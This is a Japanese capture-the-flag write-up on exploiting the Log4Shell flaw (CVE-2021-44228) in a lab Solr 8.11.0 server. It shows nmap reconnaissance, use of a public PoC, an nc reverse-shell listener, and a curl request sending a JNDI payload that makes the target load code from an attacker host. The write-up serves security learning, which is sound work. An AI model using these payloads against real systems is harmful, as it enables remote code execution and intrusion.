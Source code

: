 # writeup

本問題では、Solr 8.11.0に存在するLog4jの脆弱性（CVE-2021-44228）を利用してシェルを取得する問題です。

## 脆弱性の概要

Log4j 2.14.1以前のバージョンでは、JNDI（Java Naming and Directory Interface）を使用したリモートコード実行の脆弱性が存在します。この脆弱性は、ログメッセージ内に特定の文字列（${jndi:ldap://...}など）が含まれている場合に、指定されたLDAPサーバーからJavaクラスをダウンロードして実行してしまうというものです。

詳細については[CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)および[JP-CERT](https://www.jpcert.or.jp/at/2021/at210050.html)を参照してください。

## 攻撃手順

### 1. 初期偵察（Reconnaissance）

まず、ターゲットサーバーで動作しているサービスとポートを特定します。

```bash
# 基本的なポートスキャンの実行例
nmap <ターゲットのIP>
```

実行結果例：
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 20:13 JST
Nmap scan report for ip-10-0-191-228.ap-northeast-1.compute.internal (10.0.191.228)
Host is up (0.0017s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
                                                          
```

この結果から、80番ポートでHTTPサービスが稼働していることが確認できます。

詳細なサービス情報を取得するため、バージョンスキャンを実行します：

```bash
# 詳細なバージョンスキャン
nmap -sV -sC -p80 <ターゲットのIP>
```

実行結果例：
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 20:14 JST
Nmap scan report for ip-10-0-191-228.ap-northeast-1.compute.internal (10.0.191.228)
Host is up (0.0017s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache Solr
| http-title: Solr Admin
|_Requested resource was http://ip-10-0-191-228.ap-northeast-1.compute.internal/solr/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.49 seconds
```

この結果から、80番ポートでApache Solrが動作していることが確認できます。

`http://<ターゲットのIP>` にアクセスすると `http://<ターゲットのIP>/solr/#/` へリダイレクトされApache Solrのダッシュボードが表示されます。

### 2. Solrサーバーのバージョン確認

ブラウザで `http://<ターゲットのIP>/solr/#/` にアクセスし、Solrのダッシュボードからバージョンを確認します。

![Solr Version](./solr_version.png)

ダッシュボードからSolr 8.11.0が動作していることを確認できます。このバージョンのSolrは、Log4j 2.14.1以前を使用しているため、Log4jの脆弱性（CVE-2021-44228）が存在することが確認できます。

Solr 8.11.0がLog4j脆弱性の影響を受けることは、[Apache Solrのセキュリティアドバイザリ](https://solr.apache.org/security.html)で確認できます。

### 3. Javaバージョンの確認・インストール

攻撃に使用するPoCスクリプトは、攻撃マシンでビルドしたJavaのコードをターゲットマシンで実行するため、ターゲットと攻撃マシンのJavaバージョンを確認します。

ターゲットのJavaバージョン確認：

- ブラウザで `http://<ターゲットのIP>/solr/~java-properties` にアクセス
- OpenJDKのversion "17.0.14"であることが確認できます

![Java Version](./java_version.png)

ターゲットのJavaで実行可能なバイトコードがビルド可能なJavaを攻撃マシンにインストールします。Browser Kaliの場合は `"17.0.8" 2023-07-18` が`/usr/bin/java`にあらかじめインストールされているので、追加でのインストールは不要です。

### 4. 攻撃用PoCの準備

Log4j脆弱性を利用した攻撃用のコードを探すため、`https://github.com/search`で「log4j poc」のキーワードで検索し、Languageをpythonで絞ると、[log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)が見つかります。

```bash
# log4j-shell-pocのクローン
git clone https://github.com/kozmer/log4j-shell-poc.git
cd log4j-shell-poc

# Python仮想環境の作成と有効化
python3 -m venv venv
source venv/bin/activate

# 必要なパッケージのインストール
pip install -r requirements.txt
```

### 5. PoCスクリプトの修正

PoCのREADMEには `Note: Make sure to extract the jdk folder into this repository with the same name in order for it to work.` とありますが、先ほど攻撃用マシンにインストールしたJavaを使用するため、スクリプトを修正します。

Browser Kaliの例：

```bash
sed -i 's|jdk1.8.0_20|/usr|g' poc.py
```

### 6. リバースシェル用のリスナーを起動

別のターミナルでリバースシェルを受け取るリスナーを起動します：

```bash
# 9001ポートでリバースシェルを受け取るリスナーを起動
nc -lvnp 9001
```

### 7. 攻撃スクリプトの実行

攻撃用のPoCスクリプトを実行します：

```bash
# 攻撃者のIPアドレスとポートを指定して実行
python3 poc.py --userip <攻撃者のIP> --webport 8000 --lport 9001
```

このPoCを実行すると1389番ポートでLDAPサーバーが起動します。

### 8. 生成されたペイロードを使用して攻撃

スクリプトが生成したペイロード（例：`${jndi:ldap://<攻撃者のIP>:1389/a}`）をSolrの管理APIに送信します。

この攻撃手法は、[Apache Log4j2のRCE脆弱性（CVE-2021-44228）を狙う攻撃観測](https://blogs.jpcert.or.jp/ja/2021/12/log4j-cve-2021-44228.html)や[log4jの0-day exploitを動かして理解する](https://zenn.dev/uu/articles/aace33b2957adc)で詳しく説明されています。

```bash
# curlを使用してペイロードを送信
curl -X POST -d '${jndi:ldap://<攻撃者のIP>:1389/a}' http://<ターゲットのIP>/solr/admin/cores
```

### 9. リバースシェルの確立とフラグの取得

ペイロードが実行されると、Solrサーバーは攻撃者のLDAPサーバーに接続し、悪意のあるJavaクラスをダウンロードして実行します。これにより、攻撃者のサーバーへのリバースシェルが確立されます。

リバースシェルが確立されたら、フラグファイルを探して内容を確認します：

```bash
# フラグファイルの取得
pwd
/opt/solr/server
ls
README.txt
contexts
etc
flag.txt
lib
logs
modules
resources
scripts
solr
solr-webapp
start.jar
cat flag.txt
flag{l0g4j_s0lr_r3vshell}
```
